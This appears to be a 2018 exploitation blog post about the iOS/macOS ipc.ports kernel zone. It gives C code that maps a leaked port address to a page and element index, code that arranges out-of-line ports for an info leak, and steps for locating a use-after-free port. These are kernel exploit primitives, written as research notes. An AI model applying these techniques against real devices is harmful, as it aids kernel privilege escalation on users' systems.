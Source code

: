 ```yaml
---
layout: post
title:  "About ipc.ports zone"
date:   2018-08-20
categories: ios macos exploitation
---
```


# Basics
* The size of `struct ipc_port` is 168. 
* The size of kalloc is 4096 * (3 or 4).

# No offset collision
There is no offset collision in one kalloc(not checked by code yet), so if you can get the offset of a `ipc_port`, you can get the port index and page index.

```c
// 0xA8
uint64_t PRTS_GetPageAndElementInfo(uint64_t kObjAddr)
{
    static uint32_t page0[25] = {
        0x000, 0x0A8, 0x150, 0x1F8, 0x2A0, 0x348, 0x3F0, 0x498, 0x540, 0x5E8,
        0x690, 0x738, 0x7E0, 0x888, 0x930, 0x9D8, 0xA80, 0xB28, 0xBD0, 0xC78,
        0xD20, 0xDC8, 0xE70, 0xF18, 0xFC0
    };
    
    static uint32_t page1[25] = {
        0x068, 0x110, 0x1B8, 0x260, 0x308, 0x3B0, 0x458, 0x500, 0x5A8, 0x650,
        0x6F8, 0x7A0, 0x848, 0x8F0, 0x998, 0xA40, 0xAE8, 0xB90, 0xC38, 0xCE0,
        0xD88, 0xE30, 0xED8, 0xF80, 0xFFF
    };
    
    static uint32_t page2[25] = {
        0x028, 0x0D0, 0x178, 0x220, 0x2C8, 0x370, 0x418, 0x4C0, 0x568, 0x610,
        0x6B8, 0x760, 0x808, 0x8B0, 0x958, 0xA00, 0xAA8, 0xB50, 0xBF8, 0xCA0,
        0xD48, 0xDF0, 0xE98, 0xF40, 0xFFF
    };
    
    static uint32_t* pages[] = {
        page0, page1, page2
    };
    
    uint32_t offset = kObjAddr & 0xFFF;
    
    int pgCnt = sizeof(pages) / sizeof(uint32_t *);
    int itemCnt = sizeof(page0) / sizeof(uint32_t);
    for (int pgIdx = 0; pgIdx < pgCnt; ++pgIdx) {
        for (int objIdx = 0; objIdx < itemCnt; ++objIdx) {
            if (pages[pgIdx][objIdx] == offset) {
                return ((uint64_t)pgIdx << 32) | objIdx;
            }
        }
    }
    
    return -1;
}


// 0xB8
uint64_t PRTS_GetPageAndElementInfo(uint64_t kObjAddr)
{
    static uint32_t page0[23] = {
        0x000, 0x0B8, 0x170, 0x228, 0x2E0, 0x398, 0x450, 0x508, 0x5C0, 0x678,
        0x730, 0x7E8, 0x8A0, 0x958, 0xA10, 0xAC8, 0xB80, 0xC38, 0xCF0, 0xDA8,
        0xE60, 0xF18, 0xFD0
    };
    
    static uint32_t page1[23] = {
        0x088, 0x140, 0x1F8, 0x2B0, 0x368, 0x420, 0x4D8, 0x590, 0x648, 0x700,
        0x7B8, 0x870, 0x928, 0x9E0, 0xA98, 0xB50, 0xC08, 0xCC0, 0xD78, 0xE30,
        0xEE8, 0xFA0, 0xFFF
    };
    
    static uint32_t page2[23] = {
        0x058, 0x110, 0x1C8, 0x280, 0x338, 0x3F0, 0x4A8, 0x560, 0x618, 0x6D0,
        0x788, 0x840, 0x8F8, 0x9B0, 0xA68, 0xB20, 0xBD8, 0xC90, 0xD48, 0xE00,
        0xEB8, 0xF70, 0xFFF
    };
    
    static uint32_t page3[23] = {
        0x028, 0x0E0, 0x198, 0x250, 0x308, 0x3C0, 0x478, 0x530, 0x5E8, 0x6A0,
        0x758, 0x810, 0x8C8, 0x980, 0xA38, 0xAF0, 0xBA8, 0xC60, 0xD18, 0xDD0,
        0xE88, 0xF40, 0xFFF
    };
    
    static uint32_t *pages[] = {
        page0, page1, page2, page3
    };
    
    uint32_t offset = kObjAddr & 0xFFF;
    
    int pgCnt = sizeof(pages) / sizeof(uint32_t *);
    int itemCnt = sizeof(page0) / sizeof(uint32_t);
    for (int pgIdx = 0; pgIdx < pgCnt; ++pgIdx) {
        for (int objIdx = 0; objIdx < itemCnt; ++objIdx) {
            if (pages[pgIdx][objIdx] == offset) {
                return ((uint64_t)pgIdx << 32) | objIdx;
            }
        }
    }
    
    return -1;
}
```

# Info leak by ool ports
Should pay attention to port layout.

```c
// 0xA8
void PRTS_LayoutPorts(mach_port_t *payloadObjs, int portCnt, mach_port_t infoLeakPort)
{
    static const int step = (PRTS_PAGE_SIZE / PRTS_PORT_SIZE) + 1;
    static const int ctxOffset = (PRTS_PORT_CTX_OFFSET / 8);
    
    // page: 1
    for (int idx = 0; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
    
    // page: 2
    payloadObjs[10] = infoLeakPort;
    for (int idx = 13; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
    
    // page: 3
    payloadObjs[2] = infoLeakPort;
    for (int idx = 5; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
}


// 0xB8
void PRTS_LayoutPorts(mach_port_t *payloadObjs, int portCnt, mach_port_t infoLeakPort)
{
    static const int step = (PRTS_PAGE_SIZE / PRTS_PORT_SIZE) + 1;
    static const int ctxOffset = (PRTS_PORT_CTX_OFFSET / 8);
    
    // page: 1
    for (int idx = 0; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
    
    // page: 2
    payloadObjs[14] = infoLeakPort;
    for (int idx = 17; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
    
    // page: 3
    payloadObjs[8] = infoLeakPort;
    for (int idx = 11; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
    
    // page: 4
    payloadObjs[2] = infoLeakPort;
    for (int idx = 5; idx < portCnt; idx += step) {
        payloadObjs[idx + ctxOffset] = infoLeakPort;
    }
}
```

# How to get UaF port address
* By filling the gap, you can get 2 kalloc with continuous address.
* Place the UaF port in the 1st kalloc, place the info leak port in the 2nd kalloc.
* With ool ports, you can get the address of info leak port.
* With the address of info leak port, you can call `PRTS_GetPageAndElementInfo`.
* With the info of 2nd kalloc, you can get the address range of 1st kalloc.
* If you can get the offset of UaF port, you can get the info of 1st kalloc.
* With GC, you can control 3 pages.
